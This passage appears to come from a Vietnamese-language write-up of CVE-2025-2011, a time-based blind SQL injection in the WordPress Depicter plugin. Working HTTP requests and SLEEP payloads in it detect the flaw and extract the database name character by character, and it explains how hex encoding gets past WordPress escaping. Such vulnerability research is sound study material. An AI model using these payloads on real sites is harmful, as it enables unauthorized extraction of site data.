 ## Exploit 
### Detect SQLi

Gửi **GET request** chứa payload SQLi.

```http
GET /wp-admin/admin-ajax.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a))+--+-+ HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Payload được decode:

```sql
999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- -
```

Khi đó một phần của câu query trở thành 

```sql
AND (lf.value like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- ' OR leadtable.content_name like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) #')
```

![response time](assets/img/posts/2025-09-11-CVE-2025-2011/resp_time.png)

👉 Dựa trên thời gian phản hồi => payload hoạt động.

**Subquery trong mệnh đề FROM**: Truy vấn con được coi là bảng tạm thời. MySQL phải thực thi truy vấn con này đầu tiên để tạo bảng tạm thời, sau đó mới thực thi truy vấn chính. 

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
GET /wp-admin/admin-ajax.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1))a))+--+-+ HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì `s` được lấy từ **GET** request trong nên bị escape bởi [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress và bởi `sanitize_text_field`.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

